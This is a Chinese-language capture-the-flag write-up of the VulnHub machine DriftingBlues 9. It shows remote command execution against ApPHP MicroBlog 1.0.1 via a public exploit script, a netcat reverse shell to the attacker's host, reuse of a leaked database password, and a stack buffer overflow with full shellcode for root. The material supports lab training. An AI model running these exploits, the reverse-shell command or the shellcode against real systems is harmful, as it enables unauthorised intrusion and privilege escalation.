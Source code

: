 [Site Unreachable](https://grumpygeekwrites.wordpress.com/2021/05/12/driftingblues-9/)

|   |   |   |
|---|---|---|
|driftingblues9|easy|aPphp GETSHELL、searchsploit使用、凭据收集、gdb使用、<br><br>缓冲区溢出漏洞（难）、pattern_create.rb、pattern_offset.rb 使用|

# 主机发现

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```
# 服务探测

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.139  

80/tcp    open  http    Apache httpd 2.4.10 ((Debian))

111/tcp   open  rpcbind 2-4 (RPC #100000)
```
# 目录扫描
```c
http://192.168.44.139/README.txt

// ApPHP MicroBlog Free
// Version: 1.0.1
```

# 漏洞扫描
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit apphp                      
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
ApPHP MicroBlog 1.0.1 - Multiple Vulnerabi | php/webapps/33030.txt
ApPHP MicroBlog 1.0.1 - Remote Command Exe | php/webapps/33070.py




┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit -m php/webapps/33030.txt  
  Exploit: ApPHP MicroBlog 1.0.1 - Multiple Vulnerabilities
      URL: https://www.exploit-db.com/exploits/33030
     Path: /usr/share/exploitdb/exploits/php/webapps/33030.txt
    Codes: OSVDB-106352, OSVDB-106351
 Verified: True
File Type: ASCII text
Copied to: /home/kali/桌面/OSCP/33030.txt




┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python2 33070.py http://192.168.44.139/
  -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =-
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/
[*] Testing for vulnerability...
[+] Website is vulnerable

[*] Fecthing phpinfo
        PHP Version 5.6.40-0+deb8u12
        System   Linux debian 3.16.0-4-586 #1 Debian 3.16.51-2 (2017-12-03) i686
        Loaded Configuration File   /etc/php5/apache2/php.ini
        Apache Version   Apache/2.4.10 (Debian)
        User/Group   www-data(33)/33
        Server Root   /etc/apache2
        DOCUMENT_ROOT   /var/www/html
        PHP Version   5.6.40-0+deb8u12
        allow_url_fopen  On  On
        allow_url_include  Off  Off
        disable_functions  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,
        open_basedir   no value    no value
        System V Message based IPC   Wez Furlong
        System V Semaphores   Tom May
        System V Shared Memory   Christian Cartus

[*] Fetching include/base.inc.php
<?php
                        // DATABASE CONNECTION INFORMATION
                        define('DATABASE_HOST', 'localhost');           // Database host
                        define('DATABASE_NAME', 'microblog');           // Name of the database to be used
                        define('DATABASE_USERNAME', 'clapton'); // User name for access to database
                        define('DATABASE_PASSWORD', 'yaraklitepe');     // Password for access to database
                        define('DB_ENCRYPT_KEY', 'p52plaiqb8');         // Database encryption key
                        define('DB_PREFIX', 'mb101_');              // Unique prefix of all table names in the database
                        ?>

[*] Testing remote execution
[+] Remote exec is working with system() :)
Submit your commands, type exit to quit
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

经过一番排查，我们发现用户clapton的密码被重复使用su一下

# 提权
反弹shell
```c
> nc -e /bin/bash 192.168.44.128 9001

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001

script /dev/null -c bash

su clapton //yaraklitepe
```

```c
clapton@debian:~$ cat note.txt  
cat note.txt
buffer overflow is the way. ( ° ʖ °)

if you're new on 32bit bof then check these:
翻译
缓冲区溢出就是这样。

如果您是 32 位的新手，请检查以下内容：
https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html
https://samsclass.info/127/proj/lbuf1.htm
  
  
clapton@debian:~$ cat user.txt
cat user.txt
F569AA95FAFF65E7A290AB9ED031E04F
```
上面已经提示了有缓冲区溢出漏洞还给出了教程链接，来学习学习
首先我们先下载靶机里面的input 文件
# PWN
由于此靶机上启用了**ASLR**，为了进行漏洞利用开发，我将此输入二进制文件复制到我的 Kali 中。
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ cat /proc/sys/kernel/randomize_va_space 
2
```
我必须先禁用 ASLR，然后在 gdb 中加载二进制文件。

```c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
gdb -q input
```

生成字符
```c
┌──(kali㉿kali)-[~]
└─$ msf-pattern_create -l 300

┌──(kali㉿kali)-[~]
└─$ cd /usr/share/metasploit-framework/tools/exploit 
                                                                    
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./pattern_create.rb -l 2000
```
gdb调试，得到可以看到在 0x41376641 处得到了分段错误。
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gdb -q input
Reading symbols from input...
(No debugging symbols found in input)
(gdb) r    xxxxxxxxxxxxxx好多字符

Program received signal SIGSEGV, Segmentation fault.
0x41376641 in ?? ()
```
现在，我们需要用它来查找偏移量。
接着我们使用 patter_offset.rb 来查找我们可以覆盖 EIP 的字节数。执行后可以看到171字节后可以覆盖EIP。
```c
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./pattern_offset.rb -l 200 -q 0x41376641
[*] Exact match at offset 171

┌──(kali㉿kali)-[~]
└─$ msf-pattern_offset -l 200 -q 0x41376641
[*] Exact match at offset 171

```

Leave等价于：

movl %ebp %esp

popl %ebp

我们在 171 处得到了精确匹配。现在，我们可以使用 python 命令简单地创建字符串。例如，输入包含具有 171 个 A、4 个 B 和 500 个 nop 的简单输入。
我们可以使用 gdb 中的参数来进行测试
```c
./input $(python2 -c 'print "A" * 171 + "B" * 4 + "\x90" * 500')
```

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gdb -q input
Reading symbols from input...
(No debugging symbols found in input)
(gdb) run $(python2 -c 'print "A"*171 + "B"*4 + "\x90"*500')
Starting program: /home/kali/桌面/OSCP/input $(python2 -c 'print "A"*171 + "B"*4 + "\x90"*500')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/s $esp
0xffffccd0:     '\220' <repeats 200 times>...
(gdb) 
```
之后，我检查了 esp 寄存器，并由于小端字节序而用相反顺序的esp地址(由于此时esp地址存储的是下一跳地址，所以还有一种方法二，这个地址话可以填成jmp esp指令的地址（[VulnHub-driftingblues:9\_driftingblues9-CSDN博客](https://blog.csdn.net/qq_32261191/article/details/117908644)）)替换了 4 个 B。之后，我在 nop sled 之后添加了 shell。我的最终输入如下：

```c
run $(python2 -c 'print "A" * 171 + "\xd0\xcc\xff\xff" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')

run $(python2 -c 'print "A" * 171 + "\xd0\xcc\xff\xff" + "\x90" * 64 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')

```
我也在目标机器上重复了相同的过程。但是，目标上的 ASLR 已启用，如果没有 root 权限，我们无法禁用它。因此，我们必须多次迭代相同的代码行。
我替换了之前有效负载中的地址并运行了 for 循环
经过两次不同的尝试，我得到了 root shell 和 flag